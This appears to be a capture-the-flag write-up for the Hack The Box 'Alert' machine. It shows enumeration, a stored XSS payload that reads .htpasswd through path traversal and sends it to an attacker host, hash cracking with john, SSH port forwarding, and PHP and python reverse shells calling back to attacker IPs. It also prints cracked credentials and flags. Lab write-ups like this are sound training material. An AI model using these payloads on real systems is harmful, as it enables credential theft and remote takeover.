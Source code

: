 Let's scan the IP address
```bash
sudo nmap -v -sC -sV 10.10.11.44
```

![image](images/20250321151421.png)

Let's go to the site

![image](images/20250321151558.png)

Let's try to find subdomains
```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://FUZZ.alert.htb -t 50
```

![image](images/20250321183637.png)

Subdomain `statistics` found. Let's go to it

![image](images/20250321182638.png)

You need a login and password. If there is such authorization, then most likely there is a file `.htpasswd`, which can be located in the site directory `statistics.alert.htb`.

>[!info] Note
>**`.htpasswd`** is a special file used by the **Apache** web server (and some other servers) to **store logins and passwords** as part of basic HTTP authentication.

Let's try to find hidden directories
```bash
gobuster dir -u http://alert.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![image](images/20250321183023.png)

A scan in Burp Suite showed that there is a vulnerability in executing `JavaScript` code via the `file` parameter in the URL. `visualiser.php` uses the `link_share` parameter and the `file` parameter does not work. This means that it will most likely work in `messages`.

![image](images/20250321183759.png)

Let's create an `exploit.md` file, insert the exploit into it and send it to the site
```JavaScript
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../var/www/statistics.alert.htb/.htpasswd").then(response => response.text()).then(data => {
fetch("http://<tun0 IP>:<port>/?file_content=" + encodeURIComponent(data));
});
</script>
```
Start listening on the port specified in the exploit. Next, on the site, go to the page `Contact us` and send the link to the exploit that the site generated when viewing the downloaded exploit. 
![image](images/20250322144206.png)

After all that we have done, we see an encrypted URL in the response

![image](images/20250322144328.png)

```Request
%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A
```
In Burp Suite, we decode it

![image](images/20250322144802.png)

```Credentials
albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
```
We got MD5 hash

![image](images/20250322144942.png)

Crack this hash
```bash
sudo john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long hash
```

![image](images/20250322145146.png)

Get the password of user `albert`
```Password
manchesterunited
```
Connect to it via SSH

![image](images/20250322145309.png)

First flag found
```flag
bf3bdade9513beb2eb410c28e3654544
```
See if there are any locally running services
```bash
netstat -lntp
```

![image](images/20250322150152.png)

There is a service on port `8080`. Let's forward this port to our machine
```bash
ssh -L 8081:127.0.0.1:8080 albert@10.10.11.44
```

![image](images/20250322151242.png)


![image](images/20250322151038.png)

Let's see if there is anything interesting in `/opt`

![image](images/20250322152302.png)

There is a script `shell.php`, which contains the following code:
```php
<?php

exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.74/4444 0>&1'");

?>
```

![image](images/20250322152525.png)

Let's change the IP address to our own, start listening on port `4444` and follow the link `http://127.0.0.1:8081/config/shell.php`
```bash
sudo nc -lvnp 4444
```

![image](images/20250322152812.png)

```flag
294cea2ab9d083315cc0d0127f60ad16
```
```
curl -X PUT -d '{
    "ID": "rc",
    "Name": "Remote code execution",
    "Shell": "/bin/bash",
    "Interval": "5s",
    "Args": [
        "python3",
        "-c",
        "import socket, subprocess, os; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect((\"10.10.14.180\", 4444)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); p=subprocess.Popen([\"/bin/sh\", \"-i\"])"
    ]
}' http://localhost:8500/v1/agent/check/register
```
